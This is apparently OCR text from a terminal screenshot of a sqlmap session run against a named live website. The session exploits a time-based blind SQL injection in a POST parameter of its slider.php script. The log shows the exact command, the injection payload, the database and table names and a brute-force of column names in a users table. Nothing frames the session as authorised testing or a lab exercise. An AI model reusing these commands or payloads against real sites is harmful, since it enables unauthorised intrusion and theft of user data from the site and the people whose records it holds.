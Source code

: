 [18:42:25] [INFO] fetched data logged to text files under '/root/.sqlmap/output/www.qaisare.com'

[*] shutting down at 18:42:25

root@kali:~# sqlmap --url "https://www.qaisare.com/includes/slider.php" --data "limit=13&start=0&condition=ORDER+BY+%60date_of_post%60+DESC+LIMIT"  --no-cast --tamper between.py -D qaisare_com -T mb_users --columns
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.2.10#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 18:42:59

[18:42:59] [INFO] loading tamper module 'between'
[18:42:59] [INFO] resuming back-end DBMS 'mysql' 
[18:42:59] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: limit (POST)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.1 time-based blind (heavy query) - PROCEDURE ANALYSE (EXTRACTVALUE)
    Payload: limit=13 PROCEDURE ANALYSE(EXTRACTVALUE(6233,CONCAT(0x5c,(BENCHMARK(5000000,MD5(0x4a735968))))),1)&start=0&condition=ORDER BY `date_of_post` DESC LIMIT
---
[18:42:59] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[18:42:59] [INFO] the back-end DBMS is MySQL
web application technology: Apache, PHP 7.4.7
back-end DBMS: MySQL 5 (MariaDB fork)
[18:42:59] [INFO] fetching columns for table 'mb_users' in database 'qaisare_com'
[18:42:59] [WARNING] time-based comparison requires larger statistical model, please wait..............................  (done)
[18:43:07] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 

[18:43:08] [ERROR] unable to retrieve the number of columns for table 'mb_users' in database 'qaisare_com'
[18:43:08] [WARNING] unable to retrieve column names for table 'mb_users' in database 'qaisare_com'
do you want to use common column existence check? [y/N/q] y
[18:43:13] [WARNING] it's not recommended to use 'AND/OR time-based blind' and/or 'stacked queries' for common column existence check
are you sure you want to continue? [y/N] y
which common columns (wordlist) file do you want to use?
[1] default '/usr/share/sqlmap/txt/common-columns.txt' (press Enter)
[2] custom
> 1
[18:43:18] [INFO] checking column existence using items from '/usr/share/sqlmap/txt/common-columns.txt'
[18:43:18] [INFO] adding words used on web page to the check list
[18:44:48] [INFO] tried 354/2499 items (14%)
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
[18:44:59] [INFO] retrieved: superssn                                                            
[18:47:07] [INFO] retrieved: o                                                                   
[18:49:14] [INFO] tried 1354/2499 items (54%)
